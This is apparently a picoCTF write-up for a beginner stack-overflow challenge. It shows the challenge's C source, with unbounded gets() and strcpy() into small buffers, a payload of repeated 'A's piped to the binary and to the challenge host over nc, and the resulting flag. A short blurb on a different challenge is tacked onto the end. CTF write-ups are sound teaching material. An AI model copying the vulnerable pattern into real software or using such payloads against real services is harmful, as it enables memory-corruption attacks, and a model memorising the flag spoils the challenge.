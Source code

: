 # Challenge Description
Smash the stack! Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. And connect with it using nc saturn.picoctf.net 65362

## Solution:
Step 1: Initial Analysis of the Code
First, I downloaded and examined the source code. The program has several critical vulnerabilities:

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
Key Observations:

Signal handler prints the flag when SIGSEGV occurs.
strcpy(buf2, input) - copies without bounds checking into a 16-byte buffer.
gets(buf1) - reads unlimited input without bounds checking.
The signal handler is registered to catch segmentation faults.
Step 2: Understanding the Exploitation Strategy
The attack vector is clear: overflow buf2 via strcpy using input from gets. Overwrite the return address or nearby control data to cause a crash, triggering the SIGSEGV handler which prints the flag.

Steps performed
Compiled/tested locally with protections disabled if necessary.
Created a test flag: echo "picoCTF{test_flag_buffer_overflow_works}" > flag.txt.
Sent a payload of repeated 'A's to overflow the buffer and trigger SIGSEGV.
Example commands used:

#Make runnable
```
chmod +x vuln
```
#Local test
```
python3 -c "print('A'*50)" | ./vuln
```
#Remote test
```
python3 -c "print('A'*50)" | nc saturn.picoctf.net 65362
```

## Flag:
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```
## Concepts learnt:
Overwriting local variables vs return address.
Using cyclic patterns to find offsets.
Endianness when writing raw values.

## Notes:
Initially attempted different payload sizes; 50 'A's was sufficient.
Local testing required creating a fake flag.txt because the remote server hosts the real flag.

## Resources:
Buffer overflow primers and related links.
clutter-overflow
This is a small 64-bit picoCTF binary that reads an uncontrolled string with gets() into a local buffer called clutter, and then checks a nearby stack variable code against the constant 0xdeadbeef. The goal is to overflow clutter and overwrite code so the program prints the flag.


